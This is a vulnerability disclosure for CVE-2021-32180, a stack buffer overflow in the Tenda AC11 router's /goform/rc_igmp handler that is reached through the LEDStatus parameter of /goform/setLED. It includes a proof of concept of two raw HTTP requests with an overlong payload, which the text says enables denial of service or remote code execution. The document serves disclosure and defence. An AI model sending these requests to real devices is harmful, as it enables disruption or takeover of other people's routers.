

# Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/rc_igmp` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_800227AC` (page `/goform/rc_igmp`).

This function uses `strcpy` to copy the string pointed by `v0` into a stack buffer pointed by `v6`. `v0` is directly retrived from the nvram variable `led_ctl_type` without any security check.



the `led_ctl_type` variable can be controlled by attacker by calling the function `sub_800D50A4`(page `/goform/setLED`) which gets in a parameter called `LEDStatus` into varialbe `v8`. If `v8` is different from the original value of nvram variable `led_ctl_type`(variable `v9`),then the nvram variable `led_ctl_type` will be set as `v8`


So by first setting the `LEDStatus` and then requesting the page `/goform/rc_igmp`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/setLED HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDStatus=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&LEDCloseTIme=10&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/rc_igmp HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@leonW7](https://github.com/leonW7), and [@Lnkvct](https://github.com/Lnkvct) from Shanghai Jiao Tong University  and TIANGONG Team of Legendsec at Qi'anxin Group.

## CVE ID
CVE-2021-32180
